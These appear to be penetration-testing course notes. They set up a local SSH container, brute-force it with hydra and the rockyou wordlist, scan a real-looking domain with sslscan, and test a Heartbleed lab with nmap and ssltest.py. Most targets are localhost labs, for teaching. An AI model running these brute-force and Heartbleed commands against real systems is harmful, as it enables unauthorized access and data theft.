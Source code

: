 ```bash
# util
docker run -d \
  --name=openssh-server \
  --hostname=pentest-course \
  -e PUID=1000 \
  -e PGID=1000 \
  -e TZ=Etc/UTC \
  -e PASSWORD_ACCESS=true \
  -e USER_PASSWORD=louise \
  -e USER_NAME=edibauer \
  -e LOG_STDOUT= `#optional` \
  -p 2222:2222 \
  -v /path/to/openssh-server/config:/config \
  --restart unless-stopped \
  lscr.io/linuxserver/openssh-server:latest
```

```bash
ssh edibauer@127.0.0.1 -p 2222
hydra -l edibauer -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 2222 -t 15

```

```bash
docker build -t my_ssh_server . # -t <image name>
docker run -dit -p22:22 --name mySSHServer my_ssh_server # --name <container name> <image name> 

```

- IN web browser to get codename:

`OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 launchpad`

## Enumeración de HTTP y HTTPS
```bash
whatweb

sslscan navifiesta.com.mx
### inspect SSL certificae and 443 port

```

https://github.com/vulhub/vulhub/tree/master/openssl/CVE-2014-0160

```bash

docker-compose up -d
# in web browser https://127.0.0.1:8443/
locate .nse | grep heartbleed
nmap --script ssl-heartbleed -p8443 127.0.0.1

python3 ssltest.py 127.0.0.1 -p 8443


```
